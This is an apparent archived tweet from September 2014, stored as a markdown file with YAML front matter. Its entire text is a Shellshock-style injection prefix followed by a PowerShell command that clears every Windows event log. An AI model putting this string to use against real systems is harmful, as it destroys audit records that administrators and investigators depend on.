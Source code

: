 ```yaml
---
title: "tweet: '() { :; }; wevtutil el | Foreac"
slug: "515170143509688321"
date: "2014-09-25T16:05:08+00:00"
---
```

'() { :; }; wevtutil el | Foreach-Object {wevtutil cl "$_"}'